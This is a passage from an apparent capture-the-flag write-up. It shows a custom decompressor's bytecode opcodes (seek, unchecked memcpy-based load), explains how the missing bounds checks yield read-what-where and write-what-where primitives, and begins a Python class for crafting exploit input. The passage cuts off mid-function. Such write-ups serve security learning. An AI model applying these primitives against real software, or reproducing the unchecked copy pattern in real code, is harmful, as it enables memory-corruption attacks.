     ```
    
    Opcode implementation:
    
    ```
    case 2: {
      // Seek
      uint64_t off = *(uint64_t*)(&in[cur]);
      cur += sizeof(off);
      out += off;
      break;
    }
    
    ```
    
*   3 -> LOAD(off, size). Copy `size` bytes from `out - off` to `out`, increment `out` by 8.
    
    Opcode implementation:
    
    ```
    case 3: {
      // Copy some previously written bytes
      uint64_t off = *(uint64_t*)(&in[cur]);
      cur += sizeof(off);
      uint64_t count = *(uint64_t*)(&in[cur]);
      cur += sizeof(off);
      memcpy(out, out-off, count);
      out += count;
      break;
    }
    
    ```
    

There are no bounds check in any of the operation, that gives us 2 useful primitives:

*   Read What Where, abusing `SEEK+LOAD`
*   Write What Where: abusing `SEEK+STORE`

I used this code to build the bytecode:

```
IN_ADDR = 0x42069000000 # PROT R
OUT_ADDR = 0x13371337000 # PROT RW
M64 = (1<<64)-1

class CompressedFile():
    __slots__ = ['cur', 'content', 'out']

    def __init__(self, filesize):
        self.cur = 16
        self.content = b''
        self.content += p64(0x0123456789abcdef) # magic
        self.content += p64(filesize) # file size
        self.out = OUT_ADDR

    def nop(self):
        self.content += b'\x00'
        self.cur += 1

    def write(self, b: bytes):
        assert len(b) == 1

        self.content += b'\x01' + b
        self.cur += 2
        self.out += 1 & M64

    def seek(self, off):
        self.content += b'\x02'
```